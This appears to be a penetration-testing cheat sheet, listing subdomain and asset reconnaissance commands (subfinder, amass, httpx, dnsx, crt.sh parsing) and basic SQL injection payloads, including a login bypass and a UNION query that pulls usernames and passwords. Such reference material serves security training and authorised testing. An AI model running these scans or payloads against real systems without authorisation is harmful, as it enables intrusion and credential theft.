 ## [](#header-2) Enumeration / Recon
Burp Regex for Scope Control
```powershell
.*\.example\..*$
```
Find Emails
```powershell
https://phonebook.cz/
```
Reverse Whois Search
```powershell
https://www.whoxy.com/example.com
```
Find Domains Hosted On The Same IP Address
```powershell
https://api.hackertarget.com/reverseiplookup/?q=example.com
```
Pulling root domains
```powershell
Whoxy Reverse Whois API

cat asn.txt | tlsx -san -cn -silent -resp-only | grep -v "example.com"

amass intel -asn 3389

https://crt.sh
cat crt | jq -r '.[].common_name' | sed 's/\*\.\(.*\)/\1/' | rev | cut -d "." -f 1,2 | rev | grep -v " " | sort -u
```
Resolve IP Addresses In A Subnet Range
```powershell
subnet.py [subnet range] | httpx -probe -sc -cl -td -fr | grep "SUCCESS"
xargs -a asn -I {} bash -c 'subnet.py {} | httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"'
```
Extract A records for the given list of subdomains
```powershell
dnsx -l testsubs -silent -a -resp-only
```
Subdomain Enumeration Commands
```powershell
subfinder -d example.com -all
assetfinder -subs-only example.com
amass enum -d example.com -active
amass enum -d example.com -passive
```
Subdomain Bruteforce
```powershell
~/Desktop/tools/subbrute/subbrute.py example.com
~/Desktop/tools/subbrute/subbrute.py -s ~/Desktop/tools/massdns/lists/names.txt example.com
```
Subdomain Permutations
```powershell
cat domains.txt | dnsgen - | dnsx -silent
sed 's/A.*//' livesubs | sed 's/CN.*//' | sed 's/\..$//' > domains.resolved
```
HTTPX Command
```powershell
httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"
```
Find Important Keywords In A List Of Subdomains Or Urls
```powershell
isubs.sh file.txt
```
## [](#header-2) Sqli
SQL injection cheat sheet: `https://portswigger.net/web-security/sql-injection/cheat-sheet`

Basic Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

Basic Payload: `https://insecure-website.com/products?category=Gifts'--`

## [](#header-4) Subverting Application Logic

Query: `SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

Payload: `administrator'--`

## [](#header-4) Retrieving data from other database tables

Query: `SELECT name, description FROM products WHERE category = 'Gifts'`

Payload: `' UNION SELECT username, password FROM users--`

## SQL injection UNION attacks

The UNION keyword enables you to execute one or more additional SELECT queries and append the results to the original query. For example: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

Determining the number of columns: `' ORDER BY 1--` or `' UNION SELECT NULL,NULL--` (note: number of nulls, order by = number of columns)
